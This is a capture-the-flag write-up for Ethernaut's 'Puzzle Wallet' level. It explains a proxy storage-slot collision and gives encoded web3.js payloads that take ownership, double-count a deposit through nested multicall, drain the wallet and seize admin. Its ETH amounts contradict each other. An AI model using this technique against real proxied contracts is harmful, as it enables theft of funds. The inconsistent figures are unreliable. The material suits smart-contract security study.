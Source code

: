 # Level 24 - Puzzle Wallet

- Logic contract (PuzzleWallet) should have same variables in same order of proxy contract. Otherwise, state changes would effect wrong states.
    - In Proxy contract, two state variables are pendingAdmin and admin in order. However, in PuzzleWallet, they are owner and maxBalance in same order.
    - You can think like these two vars are linked to each other. If we change pendingAdmin, Owner will also point to that value. Additionally, if we try to change maxBalance, it will also change Admin value.
    - Reason of that is proxy delegatecalls the PuzzleWallet (logic) contract, and when delegatecall is used, changes are done in callers storage. Which means, called contracts code execution is done in proxy state/storage. It does operations on behalf of caller.
- Observations:
    - When we look at contract object methods, we see PuzzleWallets methods due to associated ABI. However, instance address is the address of proxy contract. Which means, when we call a method in js, we actually delegate call to the PuzzleWallet through proxy.
    - In order to call proxy contracts own methods, we need to encode payload and send transaction.
- PoC is as follows:
    1. We have to become owner of PuzzleWallet. In order to do that, we can call proposeNewAdmin function of proxy contract with relevant payload. This will change first storage’s value to our address. And allows us to become owner of PuzzleWallet (since it will check proxy’s first storage when we delegate call).
        
        ```jsx
        propose_payload = web3.eth.abi.encodeFunctionCall({
            name:'proposeNewAdmin',
            type:'function',
            inputs:[{
                type:'address',
                name:'_newAdmin'
            }]}, [player])
            
        sendTransaction({from:player,to:owner,data:propose_payload})
        ```
        
    2. Since we are owner now, we have to add ourself to whitelisted and change maxBalance to our address to become admin. 
        1. However, in order to change maxBalance, contract shouldn’t have any ETH balance.
    3. To change ETH balance, we need to withdraw with execute function. However, It doesn’t allow us to withdraw more than we deposited. 
        1. BUT, by exploiting multicall and deposit, we can deposit twice in one transaction. So we can call deposit with value 0.001 twice, it will only pay 0.001 but increase user balance twice.
        2. Multicall does not allowto call deposit function more than once, HOWEVER, we can call multicall inside multicall with deposit call. 
        3. To illustrate→ multicall ( [deposit, multicall ( [ deposit ] ) ] )
        4. What we have to do is preparing a payload for multicall([deposit]) first.
            1. deposit signature → 0xd0e30db0
            2. multicall signature → 0xac9650d8
            3. multicall params with only deposit → `web3.eth.abi.encodeParameter("bytes[]",["0xd0e30db0"])` → `0x0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000`
            4. signature + params → `0xac9650d8` + `0000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000`
        5. Then we will call multicall directly → `contract.multicall([deposit_signature, multicall_sign_with_deposit_param])` 
        
        ```jsx
        contract.multicall(["0xd0e30db0","0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000"],{value: toWei("0.001")})
        ```
        
    4. Now contract’s balance is 0.02 (we deposited 0.01), but user balance is 0.02.
    5. Then we call execute to withdraw 0.02 eth and drain balance to zero.
    6. Then set maxBalance to player address to become admin. `contract.setMaxBalance(player)`